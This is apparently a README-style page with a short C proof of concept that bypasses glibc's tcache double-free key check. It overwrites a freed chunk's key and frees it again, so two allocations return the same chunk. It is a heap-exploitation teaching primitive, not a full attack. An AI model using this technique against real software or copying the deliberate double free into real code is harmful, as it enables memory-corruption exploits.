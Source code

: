 <details>
<summary><strong>Description</strong></summary>
<p>

bypass tcache double free's key check...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *duplicate_chunk;

    chunk0 = malloc(0x18); // request size need to in tcache range

    free(chunk0);
    // [tcache 0x20]: chunk0

    printf("tcache key: 0x%lx\n", chunk0[1]);

    // VULNERABILITY
    chunk0[1] = 0x4141414141414141; // modify to any value different with tcache key
    free(chunk0);
    // VULNERABILITY
    // [tcache 0x20]: chunk0 -> chunk0

    chunk1 = malloc(0x18);
    duplicate_chunk = malloc(0x18);
    printf("chunk1: %p\n", chunk1);
    printf("duplicate chunk: %p\n", duplicate_chunk);
}
```

</p>
</details>
